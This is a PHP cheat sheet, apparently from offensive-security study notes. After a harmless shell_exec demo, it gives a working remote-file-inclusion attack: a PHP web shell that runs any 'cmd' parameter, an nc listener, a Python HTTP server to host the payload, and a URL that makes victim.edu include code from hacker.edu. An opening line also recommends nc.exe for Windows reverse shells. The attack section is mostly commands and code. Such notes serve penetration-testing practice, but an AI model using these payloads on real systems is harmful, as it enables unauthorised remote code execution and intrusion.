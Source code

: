 To upgrade your shell to a fully-functional PTY on Windows, try using nc.exe instead of a Msfvenom reverse shell.

# Cheatsheets - PHP
## Table of Contents
* [Basic PHP Read-Eval-Print-Loop](#basic-php-read-eval-print-loop)
* [Serving Up a PHP Reverse Shell for an RFI](#serving-up-a-php-reverse-shell-for-an-rfi)

## Basic PHP Read-Eval-Print-Loop
```bash
vim demo.php
```
```php
<?php
  $output = shell_exec('ls -lart');
  echo "<pre>$output</pre>";
?>
```
```bash
php demo.php # <pre> tags become necessary when the code is executed by a web server and rendered by browser

# output
<pre>total 48
drwxr-xr-x   8 root    admin   256 Apr 24 20:56 ..
drwxr-xr-x+  4 Victor  staff   128 Apr 24 20:56 Public
drwx------+  3 Victor  staff    96 Apr 24 20:56 Documents
drwx------+  3 Victor  staff    96 Apr 24 20:56 Desktop
drwx------+  4 Victor  staff   128 Apr 24 20:58 Movies
drwx------+  4 Victor  staff   128 Apr 24 21:00 Pictures
drwx------+  4 Victor  staff   128 Apr 24 21:05 Music
drwx------+  5 Victor  staff   160 Apr 24 21:10 Downloads
drwx------@ 60 Victor  staff  1920 Apr 24 22:21 Library
-rw-r--r--   1 Victor  staff    74 Apr 26 15:17 demo.php
drwxr-xr-x+ 15 Victor  staff   480 Apr 26 15:17 .
</pre>
```

## Serving Up a PHP Reverse Shell for an RFI
Perform the steps below on the attacker side. 
```bash
vim reverse-shell.php
```
```php
<?php 
  echo shell_exec($_GET['cmd']); # replace this line with a reverse shell from /usr/share/webshells
?>
```
```python
sudo nc -nvlp 5050 # terminal 1
sudo python3 -m http.server 80 # terminal 2
```
```bash
# prerequisite: you must know the 'file' parameter is valid and will be referenced by
# an 'include' statement in the targeted web app's PHP code (other parameter examples: page, cmd, etc.)
firefox http://victim.edu/index.php?file=http://hacker.edu/reverse-shell.php
```
